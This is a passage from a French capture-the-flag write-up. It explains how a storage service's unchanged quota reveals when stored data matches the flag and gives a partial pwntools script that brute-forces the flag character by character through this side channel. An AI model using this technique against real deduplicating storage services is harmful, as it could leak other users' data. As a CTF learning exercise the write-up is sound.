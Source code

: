 ```

Menu:
- load
- store
- status
- exit
status
User: ctfplayer
Time: Sun Jul 18 22:25:05 2021
Quota: 0.026kB/64.000kB
Files: 2

Menu:
- load
- store
- status
- exit
```

Nous voyons bien que la taille n'a pas changé, il est toujours de **0.026kb** après le stockage de ``CTF{``.

Nous pouvons donc connaitre le flag car si le(s) caractère(s) ajouté à ``CTF{`` ne correspondent pas à une partie du flag, la taille augmentera.

Il faut donc réaliser un script pour tester caractères par caractères la suite du flag :

```python
import pwn
import string

def testChar(partFlagFound):
    possibleChars = " "+string.printable[:-6]
    quota2 = b""
    for char in possibleChars :

        nc.recvline() #Menu:
        nc.recvline() #- load
        nc.recvline() #- store
        nc.recvline() #- status
        nc.recvline() #- exit

        nc.sendline("store".encode()) # store
        nc.recvline() # Send me a line of data...
        nc.sendline(partFlagFound.encode()+char.encode()) # CTF{....
        nc.recvline() # Stored! Here's your file id:
        nc.recvline() # recv file id
        nc.recvline() # line feed (\n)

        nc.recvline() #Menu:
        nc.recvline() #- load
        nc.recvline() #- store
        nc.recvline() #- status
        nc.recvline() #- exit

        nc.sendline("status".encode()) # status
        nc.recvline() # User
        nc.recvline() # Time
        quota = nc.recvline() # Quota
        nc.recvline() # Files
        nc.recvline() # line feed (\n)

        if quota == quota2:
            return char
            break
```